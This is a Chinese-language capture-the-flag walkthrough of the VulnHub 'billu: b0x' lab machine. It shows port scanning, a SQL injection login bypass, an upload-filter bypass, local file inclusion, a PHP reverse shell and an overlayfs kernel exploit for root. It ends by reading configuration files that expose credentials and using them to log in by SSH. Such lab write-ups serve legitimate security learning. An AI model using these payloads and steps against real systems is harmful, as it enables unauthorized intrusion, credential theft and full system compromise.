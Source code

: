 靶机地址：[billu: b0x ~ VulnHub](https://vulnhub.com/entry/billu-b0x,188/)
导入时需要选择包含所有网卡的MAC地址
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.40
sudo nmap -p22,80 -sV 192.168.1.40
# 22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```
先访问Web服务看看，是一个登录界面，提示了需要SQL注入
先用BurpSuite拦截下请求保存到 `request.txt` ，用 `sqlmap` 尝试一下
```Shell
sqlmap -r request.txt -p "un,ps"
```
没有成功，使用BurpSuite暴力枚举，`Intruder` 模块的 Attack Type 选择 `Cluster boomb` 。
用户名字典选择 `Runtime file` ，使用 `seclists` 中的 `Generic-SQLi.txt`
密码字典选择Burp自带的 `Fuzzing - SQL injection`
跑了一会儿就跑出结果了，如
```
or 0=0 #
\
```
成功登录
添加用户功能是一个表单，并且可以上传文件
尝试上传webshell，响应只允许png/jpg/gif，尝试绕过
先修改MIME-Type，失败了；改下文件名试试，也失败了；再改文件头部，加上 `GIF89a;` ，也失败了。
同时修改文件名和文件内容，可以成功上传
因为改了文件名，暂时没有办法直接利用，看看能不能找到文件包含漏洞
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.40
# /add.php /add /c /images/ /in /phpmy/ /show /test /test.php
```
找到了一些路径，挨个尝试一下
`/add.php` 打开是刚才页面 `/panel.php` 中的一部分内容，合理猜测刚才的页面存在文件包含，尝试参数
```
load=../../etc/passwd&continue=continue
```
果然存在本地文件包含
```
root:x:0:0:root:/root:/bin/bash
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```
等内容，看看可不可以远程文件包含
```
load=http://192.168.1.40/uploaded_images/one.gif&continue=continue
```
失败了，再试试利用本地的
```
load=uploaded_images/one.gif?cmd=id&continue=continue
load=uploaded_images/one.gif&continue=continue&cmd=id
```
都是失败了，换个思路，直接上传一个反弹Shell的php内容，直接调用，而不是通过参数
```Shell
cp /usr/share/webshells/php/php-reverse-shell.php .
```
编辑一下，修改IP和端口号，上传、访问
```
load=uploaded_images/reverse_shell.gif&continue=continue
```
成功获取到了反弹shell
提权
```Shell
uname -a
# Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
lsb_release -a
# Description:    Ubuntu 12.04.5 LTS
```
利用代码
```Shell
searchsploit Linux 3.13
# Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privi | linux/local/37292.c
cat /usr/share/exploitdb/exploits/linux/local/37292.c
```
靶机上有编译器，直接编译执行，提权成功。

`/in` 中有配置信息 `PHP Version 5.3.10-1ubuntu3.26` 等
`/phpmy` 是后台管理登录界面，后续可以考虑尝试暴破
`/test` 貌似是我们可以利用的页面，需要传一个 `file` 参数，加了还是提示没传
改成POST请求，这样就可以了
试一下
```
file=uploaded_images/one.gif&cmd=id
file=uploaded_images/reverse_shell.gif
```
没法直接利用，不是文件包含，是任意文件读取
看一下源码
```
file=index.php
```
有这样几行
```php
include('c.php');
include('head.php');

$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
```
分析一下，SQL语句是
```SQL
select * from auth where pass=' + __pass__ + ' and uname=' + __uname__ + '
```
我们的注入内容将其变成了
```SQL
select * from auth where pass='\' and uname='or 0=0 #'
```
原来是通过 `\` 将后面的一个单引号转义了
再看一下 `c.php` ，有这样一段
```php
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
```
有账号和密码，尝试登录 `/phpmy` 后台管理，登陆成功了
扫描一下路径
```Shell
sudo dirsearch -u http://192.168.1.40/phpmy
# /phpmy/config.inc.php
```
利用之前的任意文件读取漏洞读取这个文件的内容
```
file=phpmy/config.inc.php
```
有这样几行
```php
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
```
尝试使用这个密码ssh连接
```Shell
ssh root@192.168.1.40
```
成功了